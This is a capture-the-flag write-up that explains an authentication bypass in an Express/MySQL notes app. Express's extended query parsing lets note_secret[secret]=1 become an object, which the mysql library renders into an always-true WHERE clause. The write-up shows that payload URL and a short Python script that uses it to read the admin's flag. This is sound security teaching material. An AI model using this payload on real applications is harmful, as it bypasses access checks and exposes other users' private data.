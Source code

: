 ### Reading the source code

For the purpose of simplicity I will list here only important functions and files,

for more details you can view the full files in this directory.

**Init.db**
```SQL
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL UNIQUE,
  `password` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;

CREATE TABLE IF NOT EXISTS `notes` (
  `note_id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `secret` varchar(255) NOT NULL,
  `note` varchar(255) NOT NULL,
  PRIMARY KEY (`note_id`)
) ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```

**Start of index.js**
```JS
const express = require('express');
const bodyParser = require('body-parser');
const crypto=require('crypto');
var session = require('express-session');
const db = require('./database');
const middleware = require('./middlewares');

const app = express();


app.use(bodyParser.urlencoded({
extended: true
}))

app.use(session({
    secret: crypto.randomBytes(32).toString("hex"),
    resave: true,
    saveUninitialized: true
}));
```
**View endpoint**
```JS
app.get('/viewNote', middleware.auth, (req, res) => {
    const { note_id,note_secret } = req.query;

    if (note_id && note_secret){
        db.getNoteById(note_id, note_secret, (err, notes) => {
            if (err) {
            return res.status(500).json({ error: 'Internal Server Error' });
            }
            return res.json(notes);
        });
    }
    else
    {
        return res.status(400).json({"Error":"Missing required data"});
    }
});
```

**Get note by ID endpoint**
```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }
    callback(null, results);
  });
}
```

**Insert flag as note in the admin account**
```JS
function insertAdminNoteOnce(callback) {
  const checkNoteQuery = 'SELECT COUNT(*) AS count FROM notes WHERE username = "admin"';
  const insertNoteQuery = 'INSERT INTO notes(username,note,secret)values(?,?,?)';
  const flag = process.env.DYN_FLAG || "placeholder";
  const secret = crypto.randomBytes(32).toString("hex");

  pool.query(checkNoteQuery, [], (err, results) => {
    if (err) {
      console.error('Error executing query:', err);
      callback(err, null);
      return;
    }

    const NoteCount = results[0].count;

    if (NoteCount === 0) {
      pool.query(insertNoteQuery, ["admin", flag, secret], (err, results) => {
        if (err) {
          console.error('Error executing query:', err);
          callback(err, null);
          return;
        }
        console.log(`Admin Note inserted successfully with this secret ${secret}`);
        callback(null, results);
      });
    } else {
      console.log('Admin Note already exists. No insertion needed.');
      callback(null, null);
    }
  });
}
```

So this application basically have these functionalities :

- Register an account
- Login to account
- Profile view
- Add note
- View note

Also, when starting the program it automatically calls `insertAdminNoteOnce` function, which will insert the flag as a note with a random 32 hex secret in admin account.

To view a note you need to provide 2 GET parameters : `note_id` & `note_secret`.

So how can we view the flag? Clearly, we can't bruteforce a 32 random bytes secret.

### Analyzing

We can easily get the note id, by looking at the table creation : `AUTO_INCREMENT=66` which means that the ID starts from 66.

For the note secret, looking at the first few lines of `index.js` we can see an interesting line :
```JS
app.use(bodyParser.urlencoded({
extended: true
}))
```

What does `extended` means? From expressjs docs :

> The extended option allows to choose between parsing the URL-encoded data with the querystring library (when false) or the qs library (when true). The “extended” syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded.

Perfect. so if we passed our GET query like this : `/viewNote?note_id=66&note_secret[c]=d`

It would be interpreted as :
```JS
note_id = 66
note_secret= {'c':'d'}
```

The viewNote route will then call the `getNotebyId` function, which will basically construct a SELECT query with our inputs :

```JS
function getNoteById(noteId, secret, callback) {
  const query = 'SELECT note_id,username,note FROM notes WHERE note_id = ? and secret = ?';
  console.log(noteId,secret);
  pool.query(query, [noteId,secret],
```

When you pass a javascript object to SQL, it treats the key as column and the value as the value of that column, in simpler terms our query is going to be like this :

```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `c` = 'd'
```

Backticks (`) meaning in SQL : 

> In MySQL, backticks are special syntax used for encapsulating identifiers like table and column names.

So if `c` was a column name, it will compare all the values in that column with `secret` which would result in `true` ( boolean value ) if at least one value appeared in both columns (c and secret) after that it will compare it with `'d'`.

So if we passed this GET query : `/viewNote?note_id=66&note_secret[secret]=1`

It would be interpreted in SQL as :
```SQL
SELECT note_id,username,note FROM notes WHERE note_id = 66 and secret = `secret` = '1'
```

so ```secret = `secret` = '1'``` will evaluate to ```true = '1'``` which is always true in MySQL.

### Exploiting

Because of jailing we need to write a simple and fast script using `requests` session :

```py
import requests


sess = requests.Session()


url = "http://169.254.55.45:5000/"


data = {"username":"yonko123","password":"yonko123"}

print(sess.post(url+"register", data=data).text)

print(sess.post(url+"login", data=data).text)

print(sess.get(url+"viewNote?note_id=66&note_secret[secret]=1").text)
```

And we get the flag :

![Screenshot (202)](https://github.com/user-attachments/assets/a9bf7ae8-4e41-422c-9d30-28b6395a4052)
